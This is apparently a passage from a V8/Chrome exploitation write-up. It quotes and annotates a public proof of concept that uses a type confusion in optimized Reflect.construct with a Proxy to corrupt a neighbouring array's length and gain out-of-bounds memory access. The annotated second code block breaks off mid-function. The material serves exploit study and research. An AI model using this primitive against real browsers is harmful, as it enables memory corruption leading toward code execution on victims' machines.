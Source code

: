 
## From Type Confusion to OOB

Before continuing, I have referenced the POC from [https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/) before attempting the rest of the exploitation which thankfully was successful after much hair-pulling. The aforementioned link has details on their analysis as well.

This is the original poc from the site:

```js
let a = [0.1, ,,,,,,,,,,,,,,,,,,,,,, 6.1, 7.1, 8.1];
var b;
a.pop();
a.pop();
a.pop();
function empty() {}
function f(nt) {
    a.push(typeof(Reflect.construct(empty, arguments, nt)) === Proxy ? 0.2 : 156842065920.05);
}
let p = new Proxy(Object, {
    get: function() {
        a[0] = {};
        b = [0.2, 1.2, 2.2, 3.2, 4.3];
        return Object.prototype;
    }
});
function main(o) {
  return f(o);
}
%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);
main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
main(p);
console.log(b.length);   // prints 819
```

These are the comments on how it works
```js

// 26 elements are needed because it is the exact offset to changing the length of the neighboring array b in the heap. This could be found by debugging
let a = [0.1, ,,,,,,,,,,,,,,,,,,,,,, 6.1, 7.1, 8.1];
var b;

// The reason the pop was needed is that, if the element was sized 23, and pushing values
// onto it directly would introduce more holes at the end of the array which will change the offset. By adding 26 elements and popping that off, no holes will be added at the back in memory.
a.pop();
a.pop();
a.pop();
  

function empty() {}
function f(nt) {
    // pushes the supposed double(object) into the confused array a writing 26*8 rather than 26*4 bytes
    // of data thus writing out of bounds.
    a.push(typeof(Reflect.construct(empty, arguments, nt)) === Proxy ? 0.2 : 156842065920.05);
}
let p = new Proxy(Object, {
    get: function() {
```